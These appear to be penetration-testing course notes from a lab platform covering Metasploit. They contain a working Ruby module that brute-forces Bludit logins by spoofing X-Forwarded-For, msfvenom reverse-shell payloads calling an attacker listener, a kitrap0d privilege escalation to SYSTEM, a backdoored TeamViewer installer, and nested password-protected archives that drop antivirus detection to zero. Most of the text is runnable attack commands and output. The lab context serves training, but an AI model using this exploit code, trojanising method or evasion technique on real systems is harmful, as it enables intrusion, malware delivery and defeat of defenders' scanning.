Look below at a similar module that you can use as boilerplate code for your exploit port-over. This is the Bludit Directory Traversal Image File Upload Vulnerability exploit, which has already been imported into msfconsole. Take a moment to acknowledge all the different fields included in the module before the exploit PoC. Note that this code has not been changed in the snippet below to fit your current import but is a direct snapshot of the pre-existing module mentioned above. The information will need to be adjusted accordingly for the new port-over project.
PoC - Requirements
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
class MetasploitModule < Msf::Exploit::Remote
Rank = ExcellentRanking
include Msf::Exploit::Remote::HttpClient
include Msf::Exploit::PhpEXE
include Msf::Exploit::FileDropper
include Msf::Auxiliary::Report
You can look at the include statements to see what each one does. This can be done by cross-referencing them with the rubydoc rapid7 documentation. Below are their respective functions as explained in the documentation:
| Function | Description |
|---|---|
Msf::Exploit::Remote::HttpClient | this module provides methods for acting as an HTTP client when exploiting an HTTP server |
Msf::Exploit::PhpEXE | this is a method for generating a first-stage php payload |
Msf::Exploit::FileDropper | this method transfers files and handles file clean-up after a session with the target is established |
Msf::Auxiliary::Report | this module provides methods for reporting data to the MSF DB |
Looking at their purposes above, you conclude that you will not need the FileDropper method, and you can drop it from the final module code.
You see that there are different sections dedicated to the info page of the module, the options section. You fill them in appropriately, offering the credit due to the individuals who discovered the exploit, the CVE information, and other relevant details.
PoC - Module Information
def initialize(info={})
super(update_info(info,
'Name' => "Bludit Directory Traversal Image File Upload Vulnerability",
'Description' => %q{
This module exploits a vulnerability in Bludit. A remote user could abuse the uuid
parameter in the image upload feature in order to save a malicious payload anywhere
onto the server, and then use a custom .htaccess file to bypass the file extension
check to finally get remote code execution.
},
'License' => MSF_LICENSE,
'Author' =>
[
'christasa', # Original discovery
'sinn3r' # Metasploit module
],
'References' =>
[
['CVE', '2019-16113'],
['URL', 'https://github.com/bludit/bludit/issues/1081'],
['URL', 'https://github.com/bludit/bludit/commit/a9640ff6b5f2c0fa770ad7758daf24fec6fbf3f5#diff-6f5ea518e6fc98fb4c16830bbf9f5dac' ]
],
'Platform' => 'php',
'Arch' => ARCH_PHP,
'Notes' =>
{
'SideEffects' => [ IOC_IN_LOGS ],
'Reliability' => [ REPEATABLE_SESSION ],
'Stability' => [ CRASH_SAFE ]
},
'Targets' =>
[
[ 'Bludit v3.9.2', {} ]
],
'Privileged' => false,
'DisclosureDate' => "2019-09-07",
'DefaultTarget' => 0))
After the general identification information is filled in, you can move over to the options menu available.
PoC - Functions
register_options(
[
OptString.new('TARGETURI', [true, 'The base path for Bludit', '/']),
OptString.new('BLUDITUSER', [true, 'The username for Bludit']),
OptString.new('BLUDITPASS', [true, 'The password for Bludit'])
])
end
Looking back at your exploit, you see that a wordlist will be required instead of the BLUDITPASS variable for the module to brute-force the passwords for the same username. It would look something like the following:
OptPath.new('PASSWORDS', [ true, 'The list of passwords',
File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
The rest of the exploit code needs to be adjusted according to the classes, methods, and variables used in the porting to the metasploit framework for the module to work in the end. The final version of the module would look like this:
PoC
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
class MetasploitModule < Msf::Exploit::Remote
Rank = ExcellentRanking
include Msf::Exploit::Remote::HttpClient
include Msf::Exploit::PhpEXE
include Msf::Auxiliary::Report
def initialize(info={})
super(update_info(info,
'Name' => "Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass",
'Description' => %q{
Versions prior to and including 3.9.2 of the Bludit CMS are vulnerable to a bypass of the anti-brute force mechanism that is in place to block users that have attempted to login incorrectly ten times or more. Within the bl-kernel/security.class.php file, a function named getUserIp attempts to determine the valid IP address of the end-user by trusting the X-Forwarded-For and Client-IP HTTP headers.
},
'License' => MSF_LICENSE,
'Author' =>
[
'rastating', # Original discovery
'0ne-nine9' # Metasploit module
],
'References' =>
[
['CVE', '2019-17240'],
['URL', 'https://rastating.github.io/bludit-brute-force-mitigation-bypass/'],
['PATCH', 'https://github.com/bludit/bludit/pull/1090' ]
],
'Platform' => 'php',
'Arch' => ARCH_PHP,
'Notes' =>
{
'SideEffects' => [ IOC_IN_LOGS ],
'Reliability' => [ REPEATABLE_SESSION ],
'Stability' => [ CRASH_SAFE ]
},
'Targets' =>
[
[ 'Bludit v3.9.2', {} ]
],
'Privileged' => false,
'DisclosureDate' => "2019-10-05",
'DefaultTarget' => 0))
register_options(
[
OptString.new('TARGETURI', [true, 'The base path for Bludit', '/']),
OptString.new('BLUDITUSER', [true, 'The username for Bludit']),
OptPath.new('PASSWORDS', [ true, 'The list of passwords',
File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
])
end
# -- Exploit code -- #
# dirty workaround to remove this warning:
# Cookie#domain returns dot-less domain name now. Use Cookie#dot_domain if you need "." at the beginning.
# see https://github.com/nahi/httpclient/issues/252
class WebAgent
class Cookie < HTTP::Cookie
def domain
self.original_domain
end
end
end
def get_csrf(client, login_url)
res = client.get(login_url)
csrf_token = /input.+?name="tokenCSRF".+?value="(.+?)"/.match(res.body).captures[0]
end
def auth_ok?(res)
HTTP::Status.redirect?(res.code) &&
%r{/admin/dashboard}.match?(res.headers['Location'])
end
def bruteforce_auth(client, host, username, wordlist)
login_url = host + '/admin/login'
File.foreach(wordlist).with_index do |password, i|
password = password.chomp
csrf_token = get_csrf(client, login_url)
headers = {
'X-Forwarded-For' => "#{i}-#{password[..4]}",
}
data = {
'tokenCSRF' => csrf_token,
'username' => username,
'password' => password,
}
puts "[*] Trying password: #{password}"
auth_res = client.post(login_url, data, headers)
if auth_ok?(auth_res)
puts "\n[+] Password found: #{password}"
break
end
end
end
#begin
# args = Docopt.docopt(doc)
# pp args if args['--debug']
#
# clnt = HTTPClient.new
# bruteforce_auth(clnt, args['--root-url'], args['--user'], args['--#wordlist'])
#rescue Docopt::Exit => e
# puts e.message
#end
Introduction to MSFVenom
MSFVenom is the successor of MSFPayload and MSFEncode, two stand-alone scripts that used to work in conjunction with msfconsole to provide users with highly customizable and hard-to-detect payloads for their exploits.
Creating you Payloads
Suppose you have found an open FTP port that either had weak creds or was open to Anonymous login by accident. Now, suppose that the FTP server itself is linked to a webs service running on port tcp/80 of the same machine and that all of the files found in the FTP root dir can be viewed in the web-service's /uploads dir. Also suppose that the web service does not have any checks for what you are allowed to run on it as a client.
Suppose you are hypothetically allowed to call anything from the web service. In that case, you can upload a PHP shell directly through the FTP server and access it from the web, triggering the payload and allowing you to receive a reverse TCP connection from the victim machine.
Scanning the Target
d41y@htb[/htb]$ nmap -sV -T4 -p- 10.10.10.5
<SNIP>
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
80/tcp open http Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
FTP Anonymous Access
d41y@htb[/htb]$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: ******
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17 02:06AM <DIR> aspnet_client
03-17-17 05:37PM 689 iisstart.htm
03-17-17 05:37PM 184946 welcome.png
226 Transfer complete.
Noticing the aspnet_client, you realize that the box will be able to run .apsx reverse shells. Luckily for you, msfvenom can do just that without any issues.
Generating Payload
d41y@htb[/htb]$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2819 bytes
...
d41y@htb[/htb]$ ls
Desktop Documents Downloads my_data Postman PycharmProjects reverse_shell.aspx Templates
Now, you only need to naviagte to http://10.10.10.5/reverse_shell.aspx and it will trigger the .apsx payload. Before you do that, however, you should start a listener on msfconsole so that the reverse connection request gets caught inside it.
MSF - Setting Up Multi/Handler
d41y@htb[/htb]$ msfconsole -q
msf6 > use multi/handler
msf6 exploit(multi/handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf6 exploit(multi/handler) > set LHOST 10.10.14.5
LHOST => 10.10.14.5
msf6 exploit(multi/handler) > set LPORT 1337
LPORT => 1337
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.5:1337
Executing the Payload
Now you can trigger the .aspx payload on the web service. Doing so will load absolutely nothing visually speaking on the page, but looking back at your multi/handler, you would have received a connection. You should ensure that your .apsx file does not contain HTML, so you will only see a blank web page. However, the payload is executed in the background anyway.
MSF - Meterpreter Shell
<...SNIP...>
[*] Started reverse TCP handler on 10.10.14.5:1337
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.5:1337 -> 10.10.10.5:49157) at 2020-08-28 16:33:14 +0000
meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter >
[*] 10.10.10.5 - Meterpreter session 1 closed. Reason: Died
Local Exploit Suggester
There is a module called the "Local Exploit Suggester". You will be using this module for this example, as the meterpreter shell landed on the IIS APPOOL\Web user, which naturally does not have many permissions. Furthermore, running the sysinfo command shows you that the system is of x86 bit architecture, giving you even more reason to trust the Local Exploit Suggester.
MSF - Searching for Local Exploit Suggester
msf6 > search local exploit suggester
<...SNIP...>
2375 post/multi/manage/screenshare normal No Multi Manage the screen of the target meterpreter session
2376 post/multi/recon/local_exploit_suggester normal No Multi Recon Local Exploit Suggester
2377 post/osx/gather/apfs_encrypted_volume_passwd 2018-03-21 normal Yes Mac OS X APFS Encrypted Volume Password Disclosure
<SNIP>
msf6 exploit(multi/handler) > use 2376
msf6 post(multi/recon/local_exploit_suggester) > show options
Module options (post/multi/recon/local_exploit_suggester):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION yes The session to run this module on
SHOWDESCRIPTION false yes Displays a detailed description for the available exploits
msf6 post(multi/recon/local_exploit_suggester) > set session 2
session => 2
msf6 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 31 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
Having these results in front of you, you can easily pick one of them to test out. If the one you chose is not valid after all, move on to the next. Not all checks are 100% accurate, and not all variables are the same. Going down the list, bypassauc_eventvwr fails due to the IIS user not being a part of the administrator's group, which is the default and expected. The second option, ms10_015_kitrap0d, does the trick.
MSF - Local PrivEsc
msf6 exploit(multi/handler) > search kitrap0d
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/local/ms10_015_kitrap0d 2010-01-19 great Yes Windows SYSTEM Escalation via KiTrap0D
msf6 exploit(multi/handler) > use 0
msf6 exploit(windows/local/ms10_015_kitrap0d) > show options
Module options (exploit/windows/local/ms10_015_kitrap0d):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION 2 yes The session to run this module on.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST tun0 yes The listen address (an interface may be specified)
LPORT 1338 yes The listen port
Exploit target:
Id Name
-- ----
0 Windows 2K SP4 - Windows 7 (x86)
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1338
LPORT => 1338
msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
SESSION => 3
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
[*] Started reverse TCP handler on 10.10.14.5:1338
[*] Launching notepad to host the exploit...
[+] Process 3552 launched.
[*] Reflectively injecting the exploit DLL into 3552...
[*] Injecting exploit into 3552 ...
[*] Exploit injected. Injecting payload into 3552...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.14.5:1338 -> 10.10.10.5:49162) at 2020-08-28 17:15:56 +0000
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
Firewall and IDS/IPS Evasion
Endpoint Protection
... refers to any localized device or service whose sole purpose is to protect a single host on the network. The host can be a personal computer, a corporate workstation, or a server in a network's De-Militarized Zone.
Endpoint protection usually comes in the form of software packs which include Antivirus Protection, Antimalware Protection, Firewall, and Anti-DDoS all in one, under the same software package. You are better familiarized with this form than the latter, as most of you are running endpoint protection software on your PCs at home or the workstations at your workplace.
Perimeter Protection
... usually comes in physical or virtualized devices on the network perimeter edge. These edge devices themselves provide access inside of the network from the outside, in other terms, from public to private.
Between these two zones, on some occasions, you will also find a third one, called the DMZ. This is a lower-security policy level zone than the inside networks', but with a higher trust level than the outside zone, which is the vast internet. This is the virtual space where public-facing servers are housed, which push and pull data for public clients from the internet but are also managed from the inside and updated with patches, information, and other data to keep the served information up to date and satisfy the customers of the servers.
Security Policies
... are the drive behind every well-maintained security posture of any network. They function the same way as ACL do. They are essentially a list of allow and deny statements that dictate how traffic or files can exist within a network boundary. Multiple lists can act upon multiple network parts, allowing for flexibility within a configuration. These lists can also target different features of the network and hosts, depending on where they reside.
Evasion Techniques
Msfvenom offers the option of using executable templates. This allows you to use some pre-set templates for executable files, inject your payload into them, and use any executable as a platform from which you can launch your attack. You can embed the shellcode into any installer, package, or programm that you have at hand, hiding the payload shellcode deep within the legitimate code of the actual product. This greatyl obfuscates your malicious code and, more importantly, lowers your detection chances. There are many valid combinations between actual, legitimate executable files, your different encoding schemes, and your different payload shellcode variants. This generates what is called a backdoored executable.
d41y@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/Desktop/TeamViewer_Setup.exe
... and:
d41y@htb[/htb]$ ls
Pictures-of-cats.tar.gz TeamViewer_Setup.exe Cake_recipes
For the most part, when a target launches a backdoored executable, nothing will appear to happen, which can raise suspicions in some cases. To improve your chances, you need to trigger the continuation of the normal execution of the launched app while pulling the payload in a separate thread from the main app. You do so with the -k flag as it appears above. However, even with the -k flag running, the target will only notice the running backdoor if they launch the backdoored executable template from a CLI environment. If they do so, a separate window will pop up with the payload, which will not close until you finish running the payload session interaction on the target.
Archives
Archiving a piece of information such as a file, folder, script, executable, picture, or document and placing a password on the archive bypasses a lot of common AV signatures today. However, the downside of this process is that they will be raised as notifications in the AV alarm dashboard as beind unable to be scanned due to being locked with a password. An admin can choose to manually inspect these archives to determine if they are malicious or not.
Generating Payload
d41y@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/test.js
... and:
d41y@htb[/htb]$ cat test.js
�+n"����t$�G4ɱ1zz��j�V6����ic��o�Bs>��Z*�����9vt��%��1�
<...SNIP...>
�Qa*�����RW�%Š.\�=;.l�T���XF���T��
If you check against VirusTotal to get a detection baseline from the payload you generated, the results will be the following:
d41y@htb[/htb]$ msf-virustotal -k <API key> -f test.js
[*] WARNING: When you upload or otherwise submit content, you give VirusTotal
[*] (and those we work with) a worldwide, royalty free, irrevocable and transferable
[*] licence to use, edit, host, store, reproduce, modify, create derivative works,
[*] communicate, publish, publicly perform, publicly display and distribute such
[*] content. To read the complete Terms of Service for VirusTotal, please go to the
[*] following link:
[*] https://www.virustotal.com/en/about/terms-of-service/
[*]
[*] If you prefer your own API key, you may obtain one at VirusTotal.
[*] Enter 'Y' to acknowledge: Y
[*] Using API key: <API key>
[*] Please wait while I upload test.js...
[*] VirusTotal: Scan request successfully queued, come back later for the report
[*] Sample MD5 hash : 35e7687f0793dc3e048d557feeaf615a
[*] Sample SHA1 hash : f2f1c4051d8e71df0741b40e4d91622c4fd27309
[*] Sample SHA256 hash : 08799c1b83de42ed43d86247ebb21cca95b100f6a45644e99b339422b7b44105
[*] Analysis link: https://www.virustotal.com/gui/file/<SNIP>/detection/f-<SNIP>-1652167047
[*] Requesting the report...
[*] Received code 0. Waiting for another 60 seconds...
[*] Analysis Report: test.js (11 / 59): <...SNIP...>
====================================================================================================
Antivirus Detected Version Result Update
--------- -------- ------- ------ ------
ALYac true 1.1.3.1 Exploit.Metacoder.Shikata.Gen 20220510
AVG true 21.1.5827.0 Win32:ShikataGaNai-A [Trj] 20220510
Acronis false 1.2.0.108 20220426
Ad-Aware true 3.0.21.193 Exploit.Metacoder.Shikata.Gen 20220510
AhnLab-V3 false 3.21.3.10230 20220510
Antiy-AVL false 3.0 20220510
Arcabit false 1.0.0.889 20220510
Avast true 21.1.5827.0 Win32:ShikataGaNai-A [Trj] 20220510
Avira false 8.3.3.14 20220510
Baidu false 1.0.0.2 20190318
BitDefender true 7.2 Exploit.Metacoder.Shikata.Gen 20220510
BitDefenderTheta false 7.2.37796.0 20220428
Bkav false 1.3.0.9899 20220509
CAT-QuickHeal false 14.00 20220510
CMC false 2.10.2019.1 20211026
ClamAV true 0.105.0.0 Win.Trojan.MSShellcode-6360729-0 20220509
Comodo false 34607 20220510
Cynet false 4.0.0.27 20220510
Cyren false 6.5.1.2 20220510
DrWeb false 7.0.56.4040 20220510
ESET-NOD32 false 25243 20220510
Emsisoft true 2021.5.0.7597 Exploit.Metacoder.Shikata.Gen (B) 20220510
F-Secure false 18.10.978.51 20220510
FireEye true 35.24.1.0 Exploit.Metacoder.Shikata.Gen 20220510
Fortinet false 6.2.142.0 20220510
GData true A:25.33002B:27.27300 Exploit.Metacoder.Shikata.Gen 20220510
Gridinsoft false 1.0.77.174 20220510
Ikarus false 6.0.24.0 20220509
Jiangmin false 16.0.100 20220509
K7AntiVirus false 12.12.42275 20220510
K7GW false 12.12.42275 20220510
Kaspersky false 21.0.1.45 20220510
Kingsoft false 2017.9.26.565 20220510
Lionic false 7.5 20220510
MAX true 2019.9.16.1 malware (ai score=89) 20220510
Malwarebytes false 4.2.2.27 20220510
MaxSecure false 1.0.0.1 20220510
McAfee false 6.0.6.653 20220510
McAfee-GW-Edition false v2019.1.2+3728 20220510
MicroWorld-eScan true 14.0.409.0 Exploit.Metacoder.Shikata.Gen 20220510
Microsoft false 1.1.19200.5 20220510
NANO-Antivirus false 1.0.146.25588 20220510
Panda false 4.6.4.2 20220509
Rising false 25.0.0.27 20220510
SUPERAntiSpyware false 5.6.0.1032 20220507
Sangfor false 2.14.0.0 20220507
Sophos false 1.4.1.0 20220510
Symantec false 1.17.0.0 20220510
TACHYON false 2022-05-10.02 20220510
Tencent false 1.0.0.1 20220510
TrendMicro false 11.0.0.1006 20220510
TrendMicro-HouseCall false 10.0.0.1040 20220510
VBA32 false 5.0.0 20220506
ViRobot false 2014.3.20.0 20220510
VirIT false 9.5.191 20220509
Yandex false 5.5.2.24 20220428
Zillya false 2.0.0.4627 20220509
ZoneAlarm false 1.0 20220510
Zoner false 2.2.2.0 20220509
Now, try archiving it two times, passwording both archives upon creation, and removing the .rar/.zip/.7z extension from their names.
Archiving the Payload
d41y@htb[/htb]$ wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
d41y@htb[/htb]$ tar -xzvf rarlinux-x64-612.tar.gz && cd rar
d41y@htb[/htb]$ rar a ~/test.rar -p ~/test.js
Enter password (will not be echoed): ******
Reenter password: ******
RAR 5.50 Copyright (c) 1993-2017 Alexander Roshal 11 Aug 2017
Trial version Type 'rar -?' for help
Evaluation copy. Please register.
Creating archive test.rar
Adding test.js OK
Done
...
d41y@htb[/htb]$ ls
test.js test.rar
Removing the .rar Extension
d41y@htb[/htb]$ mv test.rar test
d41y@htb[/htb]$ ls
test test.js
Archiving the Payload again
d41y@htb[/htb]$ rar a test2.rar -p test
Enter password (will not be echoed): ******
Reenter password: ******
RAR 5.50 Copyright (c) 1993-2017 Alexander Roshal 11 Aug 2017
Trial version Type 'rar -?' for help
Evaluation copy. Please register.
Creating archive test2.rar
Adding test OK
Done
Removing the .rar Extension
d41y@htb[/htb]$ mv test2.rar test2
d41y@htb[/htb]$ ls
test test2 test.js
The test2 file is the final .rar archive with the extension deleted from the name. After that, you can proceed to upload it on VirusTotal for another check.
d41y@htb[/htb]$ msf-virustotal -k <API key> -f test2
[*] Using API key: <API key>
[*] Please wait while I upload test2...
[*] VirusTotal: Scan request successfully queued, come back later for the report
[*] Sample MD5 hash : 2f25eeeea28f737917e59177be61be6d
[*] Sample SHA1 hash : c31d7f02cfadd87c430c2eadf77f287db4701429
[*] Sample SHA256 hash : 76ec64197aa2ac203a5faa303db94f530802462e37b6e1128377315a93d1c2ad
[*] Analysis link: https://www.virustotal.com/gui/file/<SNIP>/detection/f-<SNIP>-1652167804
[*] Requesting the report...
[*] Received code 0. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Analysis Report: test2 (0 / 49): 76ec64197aa2ac203a5faa303db94f530802462e37b6e1128377315a93d1c2ad
=================================================================================================
Antivirus Detected Version Result Update
--------- -------- ------- ------ ------
ALYac false 1.1.3.1 20220510
Acronis false 1.2.0.108 20220426
Ad-Aware false 3.0.21.193 20220510
AhnLab-V3 false 3.21.3.10230 20220510
Antiy-AVL false 3.0 20220510
Arcabit false 1.0.0.889 20220510
Avira false 8.3.3.14 20220510
BitDefender false 7.2 20220510
BitDefenderTheta false 7.2.37796.0 20220428
Bkav false 1.3.0.9899 20220509
CAT-QuickHeal false 14.00 20220510
CMC false 2.10.2019.1 20211026
ClamAV false 0.105.0.0 20220509
Comodo false 34606 20220509
Cynet false 4.0.0.27 20220510
Cyren false 6.5.1.2 20220510
DrWeb false 7.0.56.4040 20220510
ESET-NOD32 false 25243 20220510
Emsisoft false 2021.5.0.7597 20220510
F-Secure false 18.10.978.51 20220510
FireEye false 35.24.1.0 20220510
Fortinet false 6.2.142.0 20220510
Gridinsoft false 1.0.77.174 20220510
Jiangmin false 16.0.100 20220509
K7AntiVirus false 12.12.42275 20220510
K7GW false 12.12.42275 20220510
Kingsoft false 2017.9.26.565 20220510
Lionic false 7.5 20220510
MAX false 2019.9.16.1 20220510
Malwarebytes false 4.2.2.27 20220510
MaxSecure false 1.0.0.1 20220510
McAfee-GW-Edition false v2019.1.2+3728 20220510
MicroWorld-eScan false 14.0.409.0 20220510
NANO-Antivirus false 1.0.146.25588 20220510
Panda false 4.6.4.2 20220509
Rising false 25.0.0.27 20220510
SUPERAntiSpyware false 5.6.0.1032 20220507
Sangfor false 2.14.0.0 20220507
Symantec false 1.17.0.0 20220510
TACHYON false 2022-05-10.02 20220510
Tencent false 1.0.0.1 20220510
TrendMicro-HouseCall false 10.0.0.1040 20220510
VBA32 false 5.0.0 20220506
ViRobot false 2014.3.20.0 20220510
VirIT false 9.5.191 20220509
Yandex false 5.5.2.24 20220428
Zillya false 2.0.0.4627 20220509
ZoneAlarm false 1.0 20220510
Zoner false 2.2.2.0 20220509
As you can see from the above, this is an excellent way to transfer data both to and from the target host.
Packers
The term "packer" refers to the result of an executable compression process where the payload is packed together with an executable program and with the decompression code in one single file. When run, the decompression code returns the backdoored executable to its original state, allowing for yet another layer of protection against file scanning mechanisms on target hosts. This process takes place transparently for the compressed executable to be run the same way as the original executable while retaining all of the original functionality. In addition, msfvenom provides the ability to compress and change the file structure of a backdoored executable and encrypt the underlying process structure.
Popular packer software:
- UPX packer
- The Enigma Protector
- MPRESS
- Alternate EXE Packer
- ExeStealth
- Morphine
- MEW
- Themida